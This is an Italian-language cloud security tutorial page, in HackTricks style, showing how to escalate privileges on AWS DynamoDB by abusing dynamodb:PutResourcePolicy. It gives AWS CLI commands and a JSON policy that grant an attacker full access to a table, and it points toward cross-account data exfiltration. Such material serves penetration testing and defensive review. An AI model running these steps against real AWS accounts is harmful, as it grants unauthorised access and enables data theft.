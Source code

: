 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Per ulteriori informazioni su dynamodb, controlla:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, e opzionalmente `dynamodb:GetResourcePolicy`

Dal marzo 2024, AWS offre *politiche basate sulle risorse* per DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Quindi, se hai il `dynamodb:PutResourcePolicy` per una tabella, puoi semplicemente concedere a te stesso o a qualsiasi altro principale accesso completo alla tabella.

Concedere il `dynamodb:PutResourcePolicy` a un principale casuale spesso avviene per caso, se gli amministratori pensano che concedere `dynamodb:Put*` consentirebbe solo al principale di inserire elementi nel database - o se hanno concesso quel set di permessi prima di marzo 2024...

Idealmente, hai anche `dynamodb:GetResourcePolicy`, così non sovrascrivi altre autorizzazioni potenzialmente vitali, ma inietti solo le autorizzazioni aggiuntive di cui hai bisogno:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Se non riesci a recuperare la policy attuale, utilizza semplicemente questa che concede accesso completo sulla tabella al tuo principale:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Se hai bisogno di personalizzarlo, ecco un elenco di tutte le possibili azioni DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Ecco un elenco di tutte le azioni che possono essere consentite tramite una policy basata su risorse *E quali di queste possono essere utilizzate cross-account (pensa all'exfiltrazione dei dati!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Ora, con il documento della policy `policy.json` pronto, inserisci la policy delle risorse:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Ora dovresti avere i permessi di cui avevi bisogno.

### Post Exploitation

Per quanto ne so, **non c'è altro modo diretto per escalare i privilegi in AWS semplicemente avendo alcuni permessi `dynamodb` di AWS**. Puoi **leggere informazioni sensibili** dalle tabelle (che potrebbero contenere credenziali AWS) e **scrivere informazioni nelle tabelle** (che potrebbero attivare altre vulnerabilità, come le iniezioni di codice lambda...) ma tutte queste opzioni sono già considerate nella **pagina di Post Exploitation di DynamoDB**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Leggere dati abusando dei data Streams

{{#include ../../../banners/hacktricks-training.md}}
